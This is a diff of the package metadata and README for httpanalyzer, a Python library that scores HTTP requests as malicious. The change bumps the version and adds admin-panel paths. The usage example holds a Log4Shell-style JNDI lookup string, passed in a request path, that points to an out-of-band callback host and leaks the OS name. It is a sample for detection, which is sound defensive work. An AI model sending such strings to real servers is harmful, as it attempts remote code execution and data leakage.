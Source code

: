 ```diff
@@ -1,8 +1,8 @@
-Metadata-Version: 2.1 Name: httpanalyzer Version: 0.1.3 Summary: Library for
+Metadata-Version: 2.1 Name: httpanalyzer Version: 0.1.4 Summary: Library for
 analyzing http-requests Author-email: Martin Merkli
 merkli@protonmail.com> License: MIT License Project-URL: homepage, https://
 github.com/MartinMerkli/httpanalyzer Project-URL: repository, https://
 github.com/MartinMerkli/httpanalyzer Keywords: python,http Classifier: License
 :: OSI Approved :: MIT License Classifier: Operating System :: OS Independent
 Classifier: Programming Language :: Python :: 3 Classifier: Intended Audience
 :: Developers Classifier: Intended Audience :: System Administrators Requires-
@@ -18,13 +18,14 @@
 admin_panels) ``` Print the malicious rating: ``` print(instance.malicious())
 ``` ### Example ``` import httpanalyzer instance = httpanalyzer.Request(
 {'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/
 avif,image/webp,*/*;q=0.8', 'Accept-Encoding': 'gzip, deflate, br', 'Accept-
 Language': 'en-US,en;q=0.5', 'Connection': 'keep-alive', 'Host': '127.0.0.1:
 80', 'User-Agent': 'curl/7.82.0'}, '159.223.205.51', '/api/geojson?url=${jndi:
 ldap://${sys:os.name}.cd387hid68000106u4rtc.oast.me}', ['wp-content', 'wp-
-config', 'wp-includes'] ) print(f"Malicious rating: {instance.malicious() *
-100}%") ``` ### Admin Panels To reduce the amount of false positives, specify
-all admin panels you are using. For WordPress this would be `['wp-content',
-'wp-config', 'wp-includes']`. ### Flask httpanalyzer natively supports flask
-request objects: ``` instance = httpanalyzer.FlaskRequest(flask.request) ``` ##
-Dependencies Python 3.6 or newer is required. Older versions do not work.
+config', 'wp-includes', 'wp-admin', 'admin'] ) print(f"Malicious rating:
+{instance.malicious() * 100}%") ``` ### Admin Panels To reduce the amount of
+false positives, specify all admin panels you are using. For WordPress this
+would be `['wp-content', 'wp-config', 'wp-includes', 'wp-admin', 'admin']`. ###
+Flask httpanalyzer natively supports flask request objects: ``` instance =
+httpanalyzer.FlaskRequest(flask.request) ``` ## Dependencies Python 3.6 or
+newer is required. Older versions do not work.
```

